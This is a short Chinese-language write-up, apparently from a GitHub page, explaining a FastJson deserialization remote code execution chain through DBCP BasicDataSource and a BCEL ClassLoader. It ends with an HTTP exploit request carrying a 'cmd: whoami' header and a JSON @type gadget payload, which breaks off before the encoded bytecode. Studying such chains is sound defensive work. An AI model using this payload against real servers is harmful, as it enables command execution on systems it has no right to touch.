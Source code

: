 1、FastJson自动调用setter方法修改`org.apache.commons.dbcp.BasicDataSource`类的`driverClassName`和`driverClassLoader`值

```
其中
driverClassName 是经过BCEL编码后的类字节码 
driverClassLoader 是一个由FastJson创建的org.apache.bcel.util.ClassLoader 实例。
```

在自动setter之后，并没有触发漏洞，只是注入了类名和类加载器。

导致命令执行就在于FastJson会自动调用getter方法的`getConnection()`方法

`org.apache.commons.dbcp.BasicDataSource`本没有`connection`成员变量，但有一个`getConnection()`方法

当`getConnection()`方法被调用时就会使用注入进来的`org.apache.bcel.util.ClassLoader`类加载器加载注入进来恶意类字节码

命令执行带回显

```
POST / HTTP/1.1
Host: 127.0.0.1:8080
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:99.0) Gecko/20100101 Firefox/99.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1
Content-Type: application/json
cmd: whoami
Content-Length: 3651

{
    "xx":
    {
        "@type" : "java.lang.Class",
        "val"   : "org.apache.tomcat.dbcp.dbcp2.BasicDataSource"
    },
    "x" : {
        "name": {
            "@type" : "java.lang.Class",
            "val"   : "com.sun.org.apache.bcel.internal.util.ClassLoader"
        },
        {
            "@type":"com.alibaba.fastjson.JSONObject",
            "c": {
                "@type":"org.apache.tomcat.dbcp.dbcp2.BasicDataSource",
                "driverClassLoader": {
                    "@type" : "com.sun.org.apache.bcel.internal.util.ClassLoader"
                },
```